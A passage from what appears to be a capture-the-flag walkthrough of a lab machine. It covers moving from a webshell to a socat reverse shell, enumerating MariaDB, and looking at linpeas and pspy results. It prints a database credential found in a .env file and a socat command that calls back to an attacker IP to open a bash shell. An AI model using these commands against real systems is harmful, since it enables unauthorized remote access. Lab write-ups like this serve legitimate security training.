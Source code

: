 Great, found one credential: **laravel : 02mDWOgsOga03G385!!3Plcx**. It's probably just for the database.

Oh! so that's why my webshell dies so often: the session lifetime is set to 120! Better just make a reverse shell then.

![useful tools](useful%20tools.png)

Oh, there's socat? I'll use that then. On my attacker machine:

```bash
sudo ufw allow from 10.10.11.220 to any port 4444 proto tcp
bash
socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
```

Then, on the target machine via the webshell:

```bash
socat TCP:10.10.14.2:4444 EXEC:'bash',pty,stderr,setsid,sigint,sane
```

Excellent. Now that I have a pretty good reverse shell, I'll take a look at that MariaDB database that had credentials in `.env` :

![mysql 1](mysql%201.png)



### Databases, databases

I checked out the `intentions` database. As expected, it was identical to the database dump already obtained via blind SQL injection (albeit a *lot* faster to enumerate). I also checked `information_schema` so see if the database could read or write files, etc. Unfortunately, no significant results.

With the obvious out of the way, I'll perform my typical User Enumeration (Linux) procedure. In the interest of keeping this walkthrough brief, I'll omit the procedure itself and just jot down any notable results:

- www-data can `sudo` but I lack the password
- linpeas showed mention of another db:
  ![mention of other db](mention%20of%20other%20db.png)
- Pspy showed that there is a cleanup script running periodically![pspy 1](pspy%201.png)

Inside the `.env` file discovered earlier on, it mentions that they are using `laravel.test`. Hoping that they left some kind of testing logs, I looked inside the docker context directory: `/var/www/html/intentions/vendor/laravel/sail/runtimes/8.2`. Inside there is a script called `start-container`. The contents seem like maybe it could be used for privesc to root :triangular_flag_on_post: I'll investigate this later.



### History in .git

The `.git` repo also looks interesting for this project. The file `COMMIT_EDITMSG` contains the following message:
